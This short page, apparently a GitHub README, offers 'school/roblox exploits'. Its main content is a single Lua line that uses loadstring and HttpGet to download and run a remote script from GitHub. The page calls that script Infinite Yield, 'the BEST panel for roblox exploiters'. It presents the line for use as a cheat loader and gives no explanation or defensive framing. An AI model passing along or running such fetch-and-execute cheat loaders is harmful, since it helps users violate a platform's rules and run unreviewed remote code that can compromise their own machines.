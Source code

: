 # Hi. Flying minion here. I have some school/roblox exploits for you!
loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))() - Infinite Yield. The BEST panel for roblox exploiters. You can basically do anything with this on Roblox.
